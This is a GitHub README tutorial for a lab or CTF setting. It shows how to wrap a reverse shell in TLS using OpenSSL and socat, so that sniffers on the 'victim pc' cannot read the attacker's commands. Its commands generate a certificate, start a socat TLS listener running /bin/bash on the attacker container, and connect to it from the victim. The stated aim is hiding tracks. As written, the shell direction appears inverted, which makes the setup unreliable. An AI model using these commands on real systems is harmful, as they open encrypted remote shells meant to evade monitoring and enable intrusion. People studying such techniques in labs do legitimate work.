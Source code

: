 # reverse-shell-tls
simple study of reverse shell using tls certificate to protect against sniffers

## Common reverse shell

As you may noticed during the usual ctf challenges (hack the box or vulnhub for example) you can simply run a reverse shell using netcat. Sadly as you ran a reverse shell with netcat, your traffic is not encrypted so if a sniffer is running on the workstation you are trying to hack, it can track all your commands.

In this experiment it has been used two containers:
* 172.18.0.2 - kali attacker
* 172.18.0.3 - victim pc

As a proof of what it has being said above, as you open the capture file shells.cap you may notice using the follow TCP stream option that all the commands are in clear-text, and so far it isn't good as for hiding tracks.


## Encrypted reverse shell

If you want to try to create a reverse shell with the tls option, you need **socat**. But before running socat, you need to create a certificate with OpenSSL. To create a certificate run the following:

`openssl req -newkey rsa:2048 -noenc -keyout privatekey.key -x509 -days 1000 -out cert.crt`

if you don't mind the informations about your certificate just press the enter key until is done. This command has the following options:
* req = request
* -newkey = generates a new key usually it is rsa with a complexity of 2048 bits
* -noenc = does not encrypt the private key
* -keyout = outputs the key content to a file
* -x509 = generates a x509 certificate
* -days = validity of the certificate
* -out = outputs all the informations (the extensions must end as crt)

once done this command, it needs both the private key that the certificate to be together so that the ssl exchange can be done:

`cat privatekey.key cert.crt > certificate.pem`

now you need to tell socat to use this certificate:

`socat -d openssl-listen:5555,cert=certificate.pem,verify=0 EXEC:/bin/bash`

this tells socat to listen in ssl to the port 5555 plus:
* cert = the certificate to pass to socat
* verify = it has the value 0 so that doesn't block with let's encrypt
* EXEC = executes a command (in this case spawn a bash shell)

on the victim pc run the following command:

`socat -d openssl:172.18.0.2:5555,verify=0`

as your run this command you will obtain a dumb shell.

